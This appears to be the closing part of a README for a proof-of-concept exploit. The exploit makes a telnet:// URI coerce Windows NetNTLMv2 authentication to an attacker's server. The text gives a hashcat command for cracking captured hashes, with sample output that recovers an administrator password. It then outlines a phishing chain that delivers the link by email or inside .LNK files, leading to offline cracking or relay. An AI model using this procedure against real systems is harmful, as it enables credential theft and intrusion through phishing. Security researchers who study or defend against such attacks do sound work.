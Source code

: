 Once you've captured netntlmv2.hash files, you can use hashcat to crack them:

```
hashcat -m 5600 -a 0 -O netntlmv2.hash passwords.txt
```

Example output:

```
hashcat (v6.2.6) starting

[...]

ADMINISTRATOR::WIN-ROTQIHG6IIG:317c02ac078a3c43:383649f8dae29c4d85b31f31cf785b4f:010100000000000031a3f73bd4bddb01ce5532cccd64ad670000000002000c00570049004e0032004b00330001000c00570049004e0032004b00330004000c00570049004e0032004b00330003000c00570049004e0032004b003300080030003000000000000000000000000030000093dcdd107ae99fb9f0f18badad61c576a3557c607f0b8d2f70688a4620fc12520a0010000000000000000000000000000000000009002a00740065006c006e00650074002f003100390032002e003100360038002e00360039002e003200310031000000000000000000:Password1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ADMINISTRATOR::WIN-ROTQIHG6IIG:317c02ac078a3c43:383...000000
Time.Started.....: Mon May  5 10:46:24 2025 (0 secs)
Time.Estimated...: Mon May  5 10:46:24 2025 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    11233 H/s (0.04ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12/12 (100.00%)
Rejected.........: 0/12 (0.00%)
Restore.Point....: 0/12 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: password -> Password1
```

## Security Implications

This exploit demonstrates how an attacker could:

1. Create a phishing email with a malicious `telnet://` URI
2. User clicks the link, launching the telnet client
3. The server captures authentication material from the client
4. Captured hashes can be used for offline password cracking or relay attacks

The telnet:// URI handler can be embedded in places where FileOpen type operations are performed, such as within .LNK files
for exploitation purposes.

## Notes
